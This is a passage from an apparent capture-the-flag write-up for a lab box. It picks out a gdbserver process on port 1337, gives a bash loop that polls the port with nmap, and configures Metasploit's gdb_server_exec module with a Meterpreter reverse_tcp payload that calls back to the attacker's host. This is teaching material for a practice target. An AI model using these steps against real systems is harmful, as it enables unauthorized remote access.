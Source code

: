 ```

runnable tasks:
 S           task   PID         tree-key  switches  prio     wait-time             sum-exec        sum-sleep
-----------------------------------------------------------------------------------------------------------
 S       kthreadd     2    972446.880543       509   120         0.000000        26.262679         0.000000 0 0 /
 S        cpuhp/1    15      6224.457258        11   120         0.000000         0.111004         0.000000 0 0 /
[...]
 S        apache2 177262    244868.370907     17935   120         0.000000     12533.586502         0.00
 I kworker/u256:1 178046   1028474.318445       778   120         0.000000        26.767364         0.00
 I    kworker/1:0 178112   1028475.439127      4308   120         0.000000       293.455831         0.00
```

This file has a lot of info. What's of interest to us here though are the running processes that are listed. Now this is still a lot to handle and unfortunately as far as I know there's not really a way to easily identify what's important and what's not, aside from experience. After doing a lot of digging into these processes, one jumped out as the most interesting: `gdbserver`.

As it turns out, [gdbserver](https://en.wikipedia.org/wiki/Gdbserver) is a remote debugging program for the [GNU Debugger](https://en.wikipedia.org/wiki/GNU_Debugger) (gdb). This sounds like a good candidate for what might be running on port 1337.

Because of the way gdbserver is configured on the box, only one person can be connected to it at a time. You may have to reset the box to get it to work. If you run `nmap -p 1337 10.10.11.125` and the port shows as "closed", that means someone has already used it.

Here's a little script that will print out a new line whenever it detects that port 1337 is open:

```bash
while true
do
	nmap -p 1337 10.10.11.125 | grep "open"
	sleep 10
done
```

Checking out gdb on metasploit, we can see that there is a metasploit module available for this. We'll use it for simplicity and reliability. Just run

```bash
msfconsole
use exploit/multi/gdb/gdb_server_exec
```

to get the module started.

Next, run `info` to list all of the options. Here are the settings we want to change:
- **TARGET:** 1
- **RHOSTS:** 10.10.11.125
- **RPORT:** 1337
- **PAYLOAD:** linux/x64/meterpreter/reverse_tcp
- **LHOST:** \<Your IP\>
- **LPORT:** 9002 (choose whatever you want)
